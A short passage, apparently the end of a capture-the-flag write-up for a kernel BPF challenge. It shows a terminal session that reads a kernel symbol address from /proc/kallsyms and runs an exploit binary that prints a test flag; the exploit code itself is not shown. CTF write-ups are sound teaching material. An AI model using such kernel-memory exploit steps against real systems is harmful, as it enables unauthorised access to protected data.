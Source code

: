 And with the rest of boilerplate, we have `healthcheck/exploit/bpf.c`.

## The execution

Kernel addresses are randomized by KASLR, so they can't be hardcoded, but we
explicitly permit unprivileged access to kernel symbols via `/proc/kallsyms`.

```
$ grep uiuctf_flag /proc/kallsyms
ffffffff91158000
$ ./bpf ffffffff91158000
CTF{TestFlag}
```

